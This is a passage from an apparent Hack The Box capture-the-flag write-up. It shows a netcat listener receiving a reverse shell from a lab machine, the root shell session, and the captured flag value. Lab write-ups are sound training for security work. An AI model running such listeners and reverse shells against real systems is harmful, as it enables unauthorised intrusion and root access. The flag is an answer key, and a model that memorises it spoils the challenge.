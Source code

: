 ![Untitled](HTB%20writeu%20673ee/Untitled%2060.png)

```groovy
nc -vnlp 8000
listening on [any] 8000 ...
connect to [10.10.14.37] from (UNKNOWN) [10.129.75.150] 44244
whoami
root
```

```groovy
cd
ls
cat flag.txt
9cdfb439c7876e703e307864c9167a15
```

![Untitled](HTB%20writeu%20673ee/Untitled%2061.png)

### flag

```groovy
9cdfb439c7876e703e307864c9167a15
```

---